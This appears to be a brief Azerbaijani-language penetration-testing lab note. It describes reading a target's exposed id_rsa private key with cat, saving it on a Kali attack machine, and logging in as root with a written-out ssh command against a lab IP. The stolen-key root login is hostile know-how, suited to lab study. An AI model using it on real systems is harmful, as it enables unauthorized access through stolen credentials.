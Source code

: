 ## eger hansisa sistemin id-rsa varsa biz artiq hemin sisteme oz atack masinimizda ip adresi ile daxil ola bileriq root kimi 
## (USERDE)
## evvelce biz cat verib hemid id rsa oxuyuruq
## sorna  biz oz atack masinimiza kecirik ve NANO ILE HEMID FAYL ADINDA BIR FAYL YARADIRIQ VE HEMID YAZINI BURA DAXIL edirik
## (KALIDE)'
    ssh -i (ID_RSA-ADINI) -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.146.185

## VE ARTIQ ROOT KIMI DAXIL OLMUSUQ    
    
